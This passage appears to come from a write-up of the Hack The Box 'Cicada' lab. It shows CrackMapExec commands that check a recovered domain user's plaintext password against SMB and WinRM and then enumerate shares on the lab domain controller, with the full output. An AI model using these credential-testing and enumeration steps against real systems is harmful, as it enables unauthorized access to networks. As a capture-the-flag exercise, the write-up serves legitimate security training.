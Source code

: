 <br />

We've obtained valid credentials: `michael.wrightson:Cicada$M6Corpb*@Lp#nZp!8`

<br />

### michael.wrightson:

<br />

These credentials work for SMB:

<br />

```bash
❯ cme smb cicada.htb -u 'michael.wrightson' -p 'Cicada$M6Corpb*@Lp#nZp!8'
SMB         10.10.11.35     445    CICADA-DC        [*] Windows 10.0 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.35     445    CICADA-DC        [+] cicada.htb\michael.wrightson:Cicada$M6Corpb*@Lp#nZp!8 
```

<br />

However, do now work for WinRM:

<br />

```bash
❯ cme winrm cicada.htb -u 'michael.wrightson' -p 'Cicada$M6Corpb*@Lp#nZp!8'
SMB         10.10.11.35     5985   CICADA-DC        [*] Windows 10.0 Build 20348 (name:CICADA-DC) (domain:cicada.htb)
HTTP        10.10.11.35     5985   CICADA-DC        [*] http://10.10.11.35:5985/wsman
HTTP        10.10.11.35     5985   CICADA-DC        [-] cicada.htb\michael.wrightson:Cicada$M6Corpb*@Lp#nZp!8 
```

<br />

This user doesn't have any additional permissions or access to new shared resources:

<br />

```bash
❯ cme smb cicada.htb -u 'michael.wrightson' -p 'Cicada$M6Corpb*@Lp#nZp!8' --shares
SMB         10.10.11.35     445    CICADA-DC        [*] Windows 10.0 Build 20348 x64 (name:CICADA-DC) (domain:cicada.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.35     445    CICADA-DC        [+] cicada.htb\michael.wrightson:Cicada$M6Corpb*@Lp#nZp!8 
SMB         10.10.11.35     445    CICADA-DC        [*] Enumerated shares
SMB         10.10.11.35     445    CICADA-DC        Share           Permissions     Remark
SMB         10.10.11.35     445    CICADA-DC        -----           -----------     ------
SMB         10.10.11.35     445    CICADA-DC        ADMIN$                          Remote Admin
SMB         10.10.11.35     445    CICADA-DC        C$                              Default share
SMB         10.10.11.35     445    CICADA-DC        DEV                             
SMB         10.10.11.35     445    CICADA-DC        HR              READ            
SMB         10.10.11.35     445    CICADA-DC        IPC$            READ            Remote IPC
SMB         10.10.11.35     445    CICADA-DC        NETLOGON        READ            Logon server share 
SMB         10.10.11.35     445    CICADA-DC        SYSVOL          READ            Logon server share
```
